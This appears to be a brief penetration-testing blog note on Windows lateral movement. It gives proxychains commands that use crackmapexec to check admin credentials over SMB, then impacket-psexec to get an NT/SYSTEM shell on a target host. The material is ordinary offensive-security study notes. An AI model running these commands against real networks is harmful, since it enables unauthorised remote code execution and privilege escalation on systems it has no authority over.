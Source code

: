 ```yaml
---
layout: post
title: Windows impacket-psexec
titledate: 10/17/23
tags: ["infosec","offsec", "privesc", "psexec"]
---
```


#### admin

if we have verified an admin user say with crackmapexec

    proxychains crackmapexec smb 172....11 -u admin -p 'password123!' -d domain --shares

then we can leverage psexec to drop us into a NT/SYSTEM shell

    proxychains impacket-psexec admin:'password123!'@172....11

from here we can leverage our rdp pivot post